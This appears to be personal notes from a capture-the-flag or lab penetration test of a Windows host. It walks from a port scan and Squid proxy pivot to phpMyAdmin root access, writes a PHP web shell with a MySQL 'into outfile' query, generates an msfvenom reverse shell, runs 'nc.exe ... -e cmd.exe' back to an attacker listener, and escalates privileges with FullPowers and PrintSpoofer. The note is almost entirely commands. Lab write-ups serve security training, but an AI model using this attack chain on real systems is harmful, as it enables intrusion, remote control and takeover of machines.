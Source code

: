 _____

>[!INFO]
> IP=192.168.185.189
> Windows

# Nmap

```bash
sudo nmap -p- --open -sS --min-rate 5000 -n -Pn $IP | grep -oP '\d+(?=/tcp)' | paste -sd ',' -
```

```python
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3128/tcp  open  http-proxy    Squid http proxy 4.14
|_http-server-header: squid/4.14
|_http-title: ERROR: The requested URL could not be retrieved
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-02-08T10:22:56
|_  start_date: N/A
|_clock-skew: -5h59m50s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
```

## Squid Proxy


```bash
python3 spose.py --proxy http://$IP:3128 --target $IP
Using proxy address http://192.168.185.189:3128
192.168.185.189 8080 seems OPEN
```


```bash
curl --proxy http://$IP:3128 http://$IP:8080
```


![[Pasted image 20240208115009.png]]


### phpmyadmin
root:

http://192.168.185.189:8080/phpmyadmin/index.php

![[Pasted image 20240208120142.png]]

![[Pasted image 20240208120850.png]]


https://gist.github.com/BababaBlue/71d85a7182993f6b4728c5d6a77e669f?ref=benheater.com

```bash
msfvenom -p php/reverse_php LHOST=192.168.45.190 LPORT=443 -f raw -o shell.php
```

```bash
select ‘<?php system($_GET["cmd"]); ?>;’ into outfile ‘C:/wamp/www/shell.php’;
```


```cmd
impacket-smbserver smbFolder $(pwd)

dir \\IP\smbFolder\nc.exe
copy \\IP\smbFolder\nc.exe nc.exe

nc.exe 192.168.45.190 80% -e% cmd.exe
```

```bash
sudo rlwrap nc -lnvp 80
```

# PrivEsc

##  nt authority\local service

https://itm4n.github.io/localservice-privileges/?ref=benheater.com

https://github.com/itm4n/FullPowers?ref=benheater.com

![[Pasted image 20240208125532.png]]

## SeImpersonatePrivilege

https://github.com/itm4n/PrintSpoofer

```cmd
PrintSpoofer64.exe -i -c cmd
```











